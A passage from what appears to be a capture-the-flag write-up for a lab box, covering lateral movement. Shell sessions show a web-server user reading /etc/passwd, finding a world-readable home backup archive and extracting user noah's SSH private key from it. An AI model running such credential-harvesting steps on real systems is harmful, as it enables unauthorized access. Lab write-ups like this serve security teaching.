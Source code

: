 ## Lateral Movement

Enumerated local users:

```bash
www-data@thenotebook:/$ cat /etc/passwd | grep -v nologin
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
lxd:x:105:65534::/var/lib/lxd/:/bin/false
pollinate:x:109:1::/var/cache/pollinate:/bin/false
noah:x:1000:1000:Noah:/home/noah:/bin/bash
```

Enumerated backup files:

```bash
www-data@thenotebook:/var/backups$ ls -al
total 60
drwxr-xr-x  2 root root  4096 Apr 30 15:01 .
drwxr-xr-x 14 root root  4096 Feb 12 06:52 ..
-rw-r--r--  1 root root 33252 Feb 24 08:53 apt.extended_states.0
-rw-r--r--  1 root root  3609 Feb 23 08:58 apt.extended_states.1.gz
-rw-r--r--  1 root root  3621 Feb 12 06:52 apt.extended_states.2.gz
-rw-r--r--  1 root root  4373 Feb 17 09:02 home.tar.gz
```

Excessive file permission on `home.tar.gz` allowed to copy the archive within `/tmp` and extract its contents, leaking `noah` ssh keys:

```bash
www-data@thenotebook:/var/backups$ cp home.tar.gz /tmp
www-data@thenotebook:/var/backups$ cd /tmp
www-data@thenotebook:/tmp$ gunzip home.tar.gz
www-data@thenotebook:/tmp$ tar -xf home.tar
www-data@thenotebook:/tmp$ cd home
www-data@thenotebook:/tmp/home$ ls
noah
www-data@thenotebook:/tmp/home$ cd noah/
www-data@thenotebook:/tmp/home/noah$ ls -al
total 32
drwxr-xr-x 5 www-data www-data 4096 Feb 17 09:02 .
drwxr-xr-x 3 www-data www-data 4096 Feb 12 06:24 ..
-rw-r--r-- 1 www-data www-data  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 www-data www-data 3771 Apr  4  2018 .bashrc
drwx------ 2 www-data www-data 4096 Feb 16 10:47 .cache
drwx------ 3 www-data www-data 4096 Feb 12 06:25 .gnupg
-rw-r--r-- 1 www-data www-data  807 Apr  4  2018 .profile
drwx------ 2 www-data www-data 4096 Feb 17 08:59 .ssh
www-data@thenotebook:/tmp/home/noah$ cd .ssh
www-data@thenotebook:/tmp/home/noah/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub
```

Noah private key was then used to access the box:
